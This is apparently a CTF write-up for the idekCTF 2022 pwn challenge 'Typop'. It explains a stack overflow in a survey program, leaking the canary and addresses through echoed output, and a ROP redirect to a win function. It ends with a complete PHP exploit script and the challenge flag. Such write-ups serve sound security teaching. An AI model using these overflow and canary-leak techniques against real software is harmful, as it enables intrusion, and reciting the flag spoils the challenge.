 # Typop - idekCTF 2022 (pwn, 155 solved, 408p)

## Introduction
Typop is a pwn task.

An archive containing a binary and a Dockerfile is given.

## Reverse engineering
The binary asks the user if they want to fill a survey.

If they accept, the binary takes feedback from the user, and then it asks if the
user wishes to complete an other survey.

```c
while(true) {
	puts("Do you want to complete a survey?");

	if('y' != getchar())
		break;

	getchar();
	getFeedback();
}
```

When asking for a feedback, the binary asks if the user likes CTF, and then asks
for additional information.

```c
char buffer[10];

puts("Do you like ctf?");
read(STDIN_FILENO, buffer, 30);
printf("You said: %s\n", buffer);

if('y' == buffer[0])
	printf("That's great ! ");
else
	printf("Aww :( ");

puts("Can you provide some extra feedback?");
read(STDIN_FILENO, buffer, 90);
```

There is also a function called `win` that never gets called. This function
opens a file and read it.

## Vulnerabilities
The function that reads feedbacks will 30 bytes, then 90 bytes in a buffer of
size 10. It is possible to overwrite data on the stack, including the return
address.

The buffer is printed back to the user, this can be used to leak values on the
stack.

## Exploitation
Since the `getFeedback` function reads twice, it is possible to read values from
the stack. This can be done by using the first call to `read` to fill the buffer
with padding bytes, and using the second call to `read` to fix the values
smashed by the first call.

Using this technique it is possible to leak the stack canary, the saved `rbp`
register, and the saved `rip` register. This effectively leaks the addresses of
the program's stack and program's base.

It is then possible to smash the stack and put a ROP chain that would call the
`win` function, right before the call to `fopen` to open an arbitrary file and
print it.

```
000012ac  LEA  RAX=>local_52, [RBP + -0x4a]
000012b0  LEA  RSI, [DAT_00002008] = 72h    r
000012b7  MOV  RDI, RAX
000012ba  CALL <EXTERNAL>::fopen
```

**Flag**: `idek{2_guess_typos_do_matter}`

## Appendices
### pwn.php
```php
#!/usr/bin/php
<?php // vim: filetype=php
const LOCAL = false;
const HOST  = "typop.chal.idek.team";
const PORT  = 1337;

function expect_check(string $left, string $right)
{
	if($left !== $right) {
		fprintf(STDERR, "Wanted: %s\n", $left);
		fprintf(STDERR, "Got:    %s\n", $right);
		throw new Exception("Unexpected data");
	}
}

function expect($fp, string $str)
{
	$data = fread($fp, strlen($str));
	expect_check($str, $data);
}

function expectLine($fp, string $line)
{
	$data = fgets($fp);
	expect_check("$line\n", $data);
}

function line($fp) : string
{
	$line = fgets($fp);

	if("\n" !== substr($line, -1))
		throw new Exception("fgets did not return a line");

	return substr($line, 0, -1);
}

function survey($fp, string $payload, bool $s = true) : string
{
	if($s) {
		expectLine($fp, "Do you want to complete a survey?");
		fwrite($fp, "y\n");
	}

	expectLine($fp, "Do you like ctf?");
	fwrite($fp, $payload);

	expect($fp, "You said: $payload");
	return line($fp);
}

function extra($fp, string $payload)
{
	expect($fp, "That's great! ");
	expectLine($fp, "Can you provide some extra feedback?");
	fwrite($fp, $payload);
}

printf("[*] Opening connection\n");
$time = microtime(true);

$fp = fsockopen(HOST, PORT);

if(!LOCAL)
	expectLine($fp, "== proof-of-work: disabled ==");

printf("[+] Done in %f seconds\n", microtime(true) - $time);
printf("\n");

$leak   = survey($fp, str_repeat("y", 10 + 1));
$canary = "\x00" . substr($leak, 0, 7);
$leak   = substr($leak, 7);
$rbp    = unpack("P", str_pad($leak, 8, "\x00"))[1];

$payload = str_repeat("x", 10) . $canary . pack("P", $rbp);
extra($fp, $payload);


$leak = survey($fp, str_repeat("y", 10 + 16));
$base = unpack("P", str_pad($leak, 8, "\x00"))[1] - 0x1447;

extra($fp, $payload);

printf("[+] Base = %X\n", $base);
if(LOCAL && 0 === $base)
	$base = 1 << 32;


$rbp += 0x28 + 10 + 8 * 3;
$payload = str_pad("TFNS", 10, "\x00") . $canary . pack("P*", $rbp,
	$base + 0x000012ac,
) . "./flag.txt\0";

survey($fp, "y");
extra($fp, $payload);

while($buffer = fread($fp, 4096))
	echo $buffer;
```
